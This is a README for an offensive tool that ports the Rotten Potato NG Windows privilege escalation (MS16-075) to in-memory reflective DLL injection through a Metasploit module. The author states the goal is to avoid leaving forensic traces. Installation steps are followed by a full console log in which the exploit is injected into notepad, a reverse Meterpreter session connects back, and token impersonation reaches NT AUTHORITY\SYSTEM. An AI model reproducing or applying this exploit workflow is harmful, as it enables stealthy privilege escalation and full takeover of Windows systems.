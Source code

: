 *This is a first draft and is subject to change by the end of the week. I'm aware of the bugs and plan on fixing them ASAP to make it more adaptable to certain situations.*

# About

A small project to port Rotten Potato NG for Reflection to avoid touching the disk and keep the entire attack in memory. Solves the problem of permissions issue and removes the need to leave forensic data. I prefer reflection of all things, which is why I chose to do this. Its a wonderful exploit to elevate from a service if you have the right privileges that is. And lukily, its unpatched :)

## Setup
As of late, the exploit will only work with the Metasploit framework due to an annoying issue with the thread not running as SYSTEM. Will be patched this week .

**Metasploit**

Grab the [Metasploit](ms16_075_reflection.rb) module, place it within the `~/.msf4/modules/exploits/windows/local/ms16_075_relection.rb`, and drop both the x86 & x64 DLL's within the same directory. 

Once you've achieved a shell of some sort, and the user you are running / impersonate as has the SeImpersonate privilege, run the module with your chosen payload. 

**Please Note: If you have an x86 session, but the computer is x64 , it will injection the x64 DLL. will fix ASAP. So as of now, just migrate to an x64 session so it cna inject the x64 DLL into x64 process. Havent quite figured this one out**

```msf exploit(windows/local/ms16_075_reflection) > run

[*] Started reverse TCP handler on -snip-:31334
[*] Launching notepad to host the exploit...
[+] Process 3448 launched.
[*] Reflectively injecting the exploit DLL into 3448...
[*] Injecting exploit into 3448...
[*] Exploit injected. Injecting payload into 3448...
[*] Payload injected. Executing exploit...
[+] Exploit finished, wait for (hopefully privileged) payload execution to complete.
[*] Sending stage (206403 bytes) to -snip-
[*] Meterpreter session 16 opened (-snip-:31334 -> -snip-:52436) at 2018-07-24 09:52:58 -0400

meterpreter > load incognito
Loading extension incognito...Success.
meterpreter > impersonate_token 'NT AUTHORITY\SYSTEM'
[-] Warning: Not currently running as SYSTEM, not all tokens will be available
             Call rev2self if primary process token is SYSTEM
[-] No delegation token available
[+] Successfully impersonated user NT AUTHORITY\SYSTEM
meterpreter > getsystem -t 1
...got system via technique 1 (Named Pipe Impersonation (In Memory/Admin)).
meterpreter > getuid
Server username: NT AUTHORITY\SYSTEM
meterpreter >
```
